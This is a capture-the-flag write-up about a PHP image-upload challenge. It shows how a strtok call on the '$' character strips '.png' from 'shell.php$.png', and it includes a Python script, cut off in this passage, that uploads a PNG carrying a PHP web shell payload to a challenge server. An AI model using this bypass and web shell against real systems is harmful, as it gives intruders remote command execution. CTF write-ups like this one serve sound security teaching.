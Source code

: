 {: file="upload.php"}

### The Solution


The only thing that comes to my mind after reading the source code is LFI to RCE vuln. But the question is how?

The backend implementation seems pretty secure since it checks:
- The file extension from the `$allowedExtensions = ["jpg", "jpeg", "png"]`
- And also the mime type by the file headers

So the only way we can successfully upload a file on their server is to upload an actual image ( or at least the image headers ) with the file extension `.jpg`, `.jpeg` or `.png`.

However if you take a closer look at the code, you will find a weird line `$fileName = strtok($fileName, chr(7841151584512418084));`. If the above conditions are met and the image is uploaded successfully, then the `$fileName` is modified just before storing it on the filesystem. But how exactly is it modified? According to the [official PHP documentation](https://www.php.net/manual/en/function.strtok.php):
> strtok() splits a string (string) into smaller strings (tokens), with each token being delimited by any character from token. That is, if you have a string like "This is an example string" you could tokenize this string into its individual words by using the space character as the token.

Basically if you have something like `strtok('This is a string', ' ')`, it will return `This`, similarly the weird looking line will replace `fileName` to a substring until the character 7841151584512418084. According to PHP that character is `$`:
```console
php > echo(chr(7841151584512418084));
$
php >
```

This is cool, because if we inject PHP backdoor into a PNG file and rename it as `shell.php$.png` it will pass both the checks since it has PNG magic bytes and a `.png` extension. Also before saving it, it should be renamed to `shell.php` allowing us to successfully upload a php backdoor. Let's test this locally:
```console
php > echo(strtok('shell.php$.png', chr(7841151584512418084)));
shell.php
php >
```

Since it works, let's make a simply python script to pop a pseudo-shell:
```python
import requests
import re

header = b'\x89\x50\x4E\x47\x0D\x0A\x1A\x0A'
payload = b'<?php system($_GET["cmd"]); __halt_compiler(); ?>'

filename = 'shell.php$.png'

with open(filename, 'wb') as f:
    f.write(header)
    f.write(payload)

url = 'http://35.222.114.240:8002/chal/'

with requests.Session() as session:
    try:
        with open(filename, "rb") as file:
            files = {"file": file}
            data = {"name": "VulnX"}  # Separate data for the "name" field
            response = session.post(url + 'upload.php', files=files, data=data)

            link = url + re.search("a href='(.*?)'", response.text).group(1)

```